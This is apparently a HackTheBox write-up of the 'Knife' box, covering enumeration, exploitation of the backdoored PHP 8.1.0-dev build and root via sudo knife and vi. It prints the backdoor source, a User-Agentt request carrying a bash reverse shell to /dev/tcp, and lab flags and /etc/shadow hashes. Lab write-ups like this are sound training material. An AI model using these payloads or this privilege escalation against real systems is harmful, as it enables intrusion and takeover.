

---
Category:
  - B2R
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - PHP
  - 8.1.0-dev
  - backdoor
  - knife
  - vi-privesc
  - Linux
---
# Resolution summary

>[!summary]
>- After having identified the backdoor by **inspecting the source code on GitHub** it is possible to obtain code execution and obtain an access as `james`.
>- The user is allowed to run `knife` with **high privileges**.
>- Since knife allows to **edit files using `vi`** and **it does not drop privileges**, it is possible to leverage this issue and **escalate to root spawning an interactive shell** from within `vi`.

### Improved skills

- Exploiting a backdoored PHP version (8.1.0-dev)
- knife (vi) privilege escalation

### Used tools

- nmap

---

## Enumeration

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Knife]
└─$ sudo nmap -sS -p- 10.10.10.242 -Pn -v -oN scans/all-tcp-ports.txt
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Knife]
└─$ sudo nmap -sV -sC -sT -p80,22 10.10.10.242 -Pn -v -oN scans/open-tcp-ports.txt
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Browsed port 80:


Enumerated web components: 



- PHP 8.1.0
- Apache 2.4.41

After some time invested in enumeration without identifying criticality, I document on this “strange” version of PHP in which I had never encountered, discovering that it had been “backdoored” while under development.

- [PHP backdoor attempt shows need for better code authenticity verification](https://www.csoonline.com/article/3613593/php-backdoor-attempt-shows-need-for-better-code-authenticity-verification.html)
- [Revert "Revert "[skip-ci] Fix typo"" · php/php-src@2b0f239](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a?branch=2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a&diff=unified#diff-a35f2ee9e1d2d3983a3270ee10ec70bf86349c53febdeabdf104f88cb2167961R368-R370)
- [[skip-ci] Fix typo · php/php-src@c730aa2](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d#diff-a35f2ee9e1d2d3983a3270ee10ec70bf86349c53febdeabdf104f88cb2167961R370)

## Foothold

The code injected within PHP 8.1.0-dev executes arbitrary code from the `USER_AGENTT` header when it starts with *zerodium*:

```php
...
{
	zval zoh;
	php_output_handler *h;
	zval *enc;

	if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY || zend_is_auto_global_str(ZEND_STRL("_SERVER"))) &&
		(enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]), "HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
		convert_to_string(enc);
		if (strstr(Z_STRVAL_P(enc), "zerodium")) {
			zend_try {
				zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
			} zend_end_try();
		}
	}
...
```

It is possible to verify the backdoor by trying to ping back our machine using `User-Agentt: zerodium system('ping -c1 10.10.14.17');`:

```
POST /index.php HTTP/1.1
Host: 10.10.10.242
User-Agentt: zerodium system('ping -c1 10.10.14.17'); 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 0
```

and thus obtaining a ping back:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Knife/scans]
└─$ sudo tcpdump -i tun0 icmp
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
18:01:03.012545 IP knife.htb > 10.10.14.17: ICMP echo request, id 1, seq 1, length 64
18:01:03.012577 IP 10.10.14.17 > knife.htb: ICMP echo reply, id 1, seq 1, length 64
```

At this point it is possible to execute a classic reverse shell payload and obtain a low level access to the machine:

```
POST /index.php HTTP/1.1
Host: 10.10.10.242
User-Agentt: zerodium system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.17/10099 0>&1'"); 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 0
```

Obtained the reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Knife/scans]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.242] 60114
bash: cannot set terminal process group (1036): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ whoami
whoami
james
james@knife:/$ hostname && ifconfig
hostname && ifconfig
knife
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.242  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:befe  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:befe  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:be:fe  txqueuelen 1000  (Ethernet)
        RX packets 2717765  bytes 412004448 (412.0 MB)
        RX errors 0  dropped 47  overruns 0  frame 0
        TX packets 2505289  bytes 1104331428 (1.1 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 10879268  bytes 1934361744 (1.9 GB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 10879268  bytes 1934361744 (1.9 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
		
which python3
/usr/bin/python3
james@knife:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
james@knife:/$ ^Z
zsh: suspended  nc -nlvp 10099

┌──(kali㉿kali)-[~/…/HTB/box/Knife/scans]
└─$ stty raw -echo; fg																		148 ⨯ 1 ⚙
[1]  + continued  nc -nlvp 10099
james@knife:/$ export TERM=xterm
james@knife:/$ stty rows 60 columns 235
```

## Privilege Escalation

Enumerated sudo capabilities:

```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Knife allowed to choose a file to edit and the editor to use. Because the program did not drop privileges, it was possible to use the `vi` editor and then escape it by spawning a privileged shell:

```bash
james@knife:/opt$ sudo /usr/bin/knife client edit healthcare-validator -e vi
```


```bash
root@knife:/opt# id && hostname && cat /root/root.txt && ifconfig
uid=0(root) gid=0(root) groups=0(root)
knife
6ae0ca51...
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.242  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:befe  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:befe  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:be:fe  txqueuelen 1000  (Ethernet)
        RX packets 2722013  bytes 412311064 (412.3 MB)
        RX errors 0  dropped 66  overruns 0  frame 0
        TX packets 2509092  bytes 1106488505 (1.1 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 10923171  bytes 1938581473 (1.9 GB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 10923171  bytes 1938581473 (1.9 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```


# Trophy

>[!quote]
>A knife is as good as the one who wields it
>
>\- Patrick Ness 

>[!success]
>**User.txt**
>0004e0252c460d6a5e5feebbaa2618ba

>[!success]
>**Root.txt**
>6ae0ca517e3e58d2eef40b19c541245c

**/etc/shadow**

```powershell
root@knife:/opt# cat /etc/shadow | grep '\$'
root:$6$LCKz7Uz/FuWPPJ6o$LaOquetpLJIhOzr7YwJzFPX4NdDDHokHtUz.k4S1.CY7D/ECYVfP4Q5eS43/PMtsOa5up1ThgjB3.xUZsHyHA1:18754:0:99999:7:::
james:$6$S4BgtW0nZi/8w.C0$pREFaCmQmAue0cm6eTgvF.vFdhsIdTr5q6PdrMVNCw4hc7TmlSqAcgMz0yOBG7mT6GcoH9gGbo.zLLG/VeT31/:18754:0:99999:7:::
```

# Video writeup

[https://www.youtube.com/watch?v=C-Uck0h5L9s&ab_channel=0xbro](https://www.youtube.com/watch?v=C-Uck0h5L9s&ab_channel=0xbro)